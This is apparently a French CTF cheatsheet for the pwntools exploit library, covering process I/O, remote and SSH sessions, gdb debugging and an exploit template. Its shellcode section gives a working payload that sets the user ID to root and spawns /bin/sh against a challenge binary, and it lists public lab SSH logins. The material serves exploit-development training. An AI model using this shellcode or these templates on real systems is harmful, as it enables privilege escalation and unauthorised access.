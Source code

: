 ```yaml
---
title: 'Pwntools'
date: 2023-02-20
draft: trash
description: "fa-solid fa-file-lines fa-fw fa-sm"
categories:
  - pwn
  - cheatsheet
tags:
  - pwn
  - cheatsheet
---
```


https://github.com/Gallopsled/pwntools

Pwntools est un CTF framework et une librairie python conçus pour le développement d’exploits. Pwntools a pour but de rendre le développement d’exploits le plus simple et rapide possible. Il vient en 2 parties : *_pwn_* pour les CTFs et *_pwnlib_* une version plus clean et “professinnelle” du projet.


## Create and Interact with Process
```python
import pwn

p = pwn.process(["/usr/bin/python3", "-c", "'print(hello)'"])

p.write("hello")       # -> send : "hello"
p.writeline("hello")   # -> send : "hello\n"

output = p.read(<length>)
output = p.readline()
output = p.readuntil('some string')
output = p.readall()

# p.readuntil('some string') ; p.write(b'aaaa')
p.writeafter('some string', b'aaaa')

# p.readuntil('some string') ; p.writeline(b'aaaa')
p.writelineafter('some string', b'aaaa')

# interacting with the process manually
p.interactive()

# waiting for the process to finish
p.wait()
```

## Remote
Ici les appels à fonctions ont été fait dans un contexte ou le process est lancé en local. Il est tout à fait possible de faire la même chose en remote.
```python
# Socket
io = remote('127.0.0.1', 1337)                # Bind
io = listen(8080).wait_for_connection()       # Reverse

# SSH Connect
s = ssh(host='challenge02.root-me.org',user='app-systeme-ch15',password='app-systeme-ch15',port=2222)
p = s.process('./ch15')

p.send("hello")       # -> send : "hello"
p.sendline("hello")   # -> send : "hello\n"

output = p.recv(<length>)
output = p.recvline()
output = p.recvuntil('some string')
output = p.recvall()
```

## Context and Environment
```python
# Add environment variables
p = pwn.process(["/usr/bin/python3", "-c", "'print(hello)'"], env={'TEST':'test'})
```

## Play with Stdin/Stdout
```python
# Redirect file output to process stdin
fd = open('input.txt', 'r')
p = process(['/usr/bin/cat', '/flag.txt'], stdin=fd)

# Redirect process output to a file
fd = open("output.txt", "w")
p = process(['/usr/bin/cat', '/flag.txt'], stdout=fd)
```

## Shellcode
```python
import pwn

p = pwn.process(['/challenge/babyshell_level5'])

pwn.context.update(arch='amd64', os='linux')
payload = pwn.asm(f"""
.global _start
_start:
.intel_syntax noprefix
	
# Set Real UID to root(0)
	xor rax, rax
	mov al, 0x71
	xor rdi, rdi
	xor rsi, rsi
	syscall
	
# Call /bin/sh
	xor rbx, rbx
	push rbx                          # on push un null byte sur la stack pour la fin de la string du path de /bin/sh
	mov rbx, 0x68732f6e69622f2f       # on push /bin/sh sur la stack
	push rbx
	xor rax, rax
	mov al, 59
	xor rdi, rdi
	mov rdi, rsp                      # on récupère "/bin/sh\0" depuis la stack
	xor rsi, rsi
	xor rdx, rdx
	syscall
""")

p.write(payload)

p.interactive()

p.wait()
```

## Debugging
Tout d'abord, le server qui héberge le binaire que l'on souhaite debug doit avoir _**gdb**_ et _**gdbserver**_ d'installé.

```python
# Debug à partir de la toute première instruction
io = gdb.debug("/bin/bash", gdbscript='continue')

# Debug un process
io = process('/bin/sh')
gdb.attach(io, gdbscript='continue')

# Debug en remote
io = remote('localhost', 4141)
gdb.attach(io)

# Debug en ssh
context.terminal = "/Applications/iTerm.app/Contents/MacOS/iTerm2" #(Dépend de l'environement graphique, ex: /usr/bin/i3-sensible-terminal)
s = ssh(host='challenge02.root-me.org',user='app-systeme-ch7',password='app-systeme-ch7',port=2222)
io = s.process(['./ch7', payload])
gdb.attach(io, gdbscript=f"""
    b *main
    continue
""")

io.sendline('break main')
io.recvline()
io.interactive()

```

## Template
```python title:pwntools_template.py
#!/usr/bin/python3.9
from pwn import *

if not args.BLIND:
    context.binary = elfexe = ELF('./src') #FIXME
#    libc = ELF('<libc-used-by-target>') #FIXME

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    elf_path = '/challenge/run'
    if args.REMOTE:
        remote_server = 'dojo.pwn.college'   #FIXME
        remote_port = 22         #FIXME

        if args.SSH:
            s = ssh('hacker', remote_server, remote_port, keyfile='/home/ego/.ssh/id_ed25519')
            if args.GDB:
                if not args.BLIND:
                    return gdb.debug([elf_path] + argv, gdbscript, elfexe.path, ssh=s, *a, *kw)
                else:
                    return gdb.debug([elf_path] + argv, gdbscript, ssh=s, *a, *kw)
            else:
                target = s.process([elf_path] + argv, *a, **kw)
        else:
            target = remote(remote_server, remote_port)
    else:
        if args.GDB:
            if not args.BLIND:
                return gdb.debug([elf_path] + argv, gdbscript, elfexe.path, *a, *kw)
            else:
                return gdb.debug([elf_path] + argv, gdbscript, *a, *kw)
        else:
            target = process([elf_path] + argv, *a, **kw)
    return target

gdbscript = '''
# init-gef
# target record-full # Not supported with AVX instructions yet

# b *main
# command
#     printf "argv ptr: %p\\n",$rsi
# end

# continue
'''.format(**locals())
if args.GDB:
    log.info('Using gdb script:\n'+gdbscript)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

arguments = []
io = start(arguments)

io.interactive()
io.close()
```
## Play with files
https://docs.pwntools.com/en/dev/filesystem.html
## Troubleshootings
Dans le cas où on a des erreurs et que l'on a besoin de comprendre ce qui se passe en détail dans pwntools, on peut utiliser l'option `debug`.

```
# Debug global
context.log_level='debug'

# Debug local
io = gdb.debug('/bin/sh', log_level='debug')
```

https://github.com/Gallopsled/pwntools-tutorial/blob/master/debugging.md#troubleshooting
